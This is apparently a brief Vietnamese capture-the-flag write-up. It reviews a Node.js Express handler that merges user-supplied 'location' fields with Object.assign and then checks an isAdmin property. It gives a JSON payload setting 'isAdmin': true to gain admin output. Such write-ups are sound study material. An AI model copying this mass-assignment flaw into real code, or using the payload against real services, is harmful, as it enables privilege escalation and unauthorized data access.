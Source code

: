 # Foobar - Find My Location

Một bài review source code để exploit đơn giản.

Source-code: server.js

```nodejs
app.post('/', (req, res) => {
    console.log(req.body)
    const user = findUser(req.body.auth || {});

    if (!user) {
        res.status(403).send({ ok: false, error: 'Access denied' });
        return;
    }

    const history = {
        icon: '👋',
    };

    Object.assign(history,req.body.location)

    if (history.isAdmin == true) {
        res.status(200).send(myLoaction)

    } else {
        res.status(200).send(history)
    }
})
```

Ta có thể thấy server assign bất cứ giá trị nào từ `req.body.location` thế nên assign thêm `"isAdmin": true` là được flag rồi

**Payload**:
```json
{
  "auth":{"name":"user","password":"pwd"},
  "location":{"name":"123", "isAdmin": true}
}
```

**flag**: Lười mở `burpsuite` quá
